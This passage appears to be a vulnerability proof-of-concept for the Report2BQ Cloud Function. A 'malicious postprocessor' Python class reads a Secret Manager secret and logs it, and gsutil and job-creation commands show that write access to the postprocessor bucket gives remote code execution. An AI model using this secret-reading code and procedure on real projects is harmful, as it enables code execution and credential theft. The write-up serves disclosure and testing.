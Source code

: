             class Processor(PostProcessor):
              def run(self, context=None, **attributes: Mapping[str, str]) -> Dict[str, Any]:
                logging.info("Malicious Postprocessor Running!")
                try:
                  client = secretmanager.SecretManagerServiceClient()
                  secret_name = "projects/<YOUR_PROJECT>/secrets/<YOUR_SECRET>/versions/latest" # Replace with a secret in your project
                  response = client.access_secret_version(request={"name": secret_name})
                  payload = response.payload.data.decode("UTF-8")
                  logging.error(f"Secret Value: {payload}") # In real attack, exfiltrate, don't just log
                except Exception as e:
                  logging.error(f"Error accessing secret: {e}")
                return {}
            ```
        - **Replace `<YOUR_PROJECT>` and `<YOUR_SECRET>` with your Google Cloud project ID and the name of a Secret Manager secret you have created for testing (or use a dummy secret for safety).**
    3. **Upload Malicious Code to GCS Bucket:**
        - Use `gsutil cp malicious_postprocessor.py gs://<YOUR_PROJECT>-report2bq-postprocessor/` to upload the malicious Python file to the designated GCS bucket.
    4. **Create Report2BQ Job with Malicious Postprocessor:**
        - Use `create_fetcher.sh` or `create_runner.sh` to create a Report2BQ job, specifying the `--message` parameter with the name of your malicious file (e.g., `--message malicious_postprocessor`).
        ```bash
        ./create_fetcher.sh --project=<YOUR_PROJECT_ID> --email="test@example.com" --report-id="12345" --message malicious_postprocessor
        ```
    5. **Trigger Report2BQ Job:**
        - Trigger the Report2BQ job (e.g., wait for the scheduled run, or manually trigger it if possible).
    6. **Check Cloud Function Logs:**
        - After the job executes, check the logs for the `report2bq-postprocessor` Cloud Function in the Google Cloud Console (Cloud Logging).
        - If the malicious code was successfully injected and executed, you should see log entries from your malicious code (e.g., "Malicious Postprocessor Running!" and potentially the secret value if you used a real secret for testing).
    7. This test case demonstrates that an attacker with write access to the postprocessor bucket can achieve Remote Code Execution by uploading and triggering malicious postprocessor code.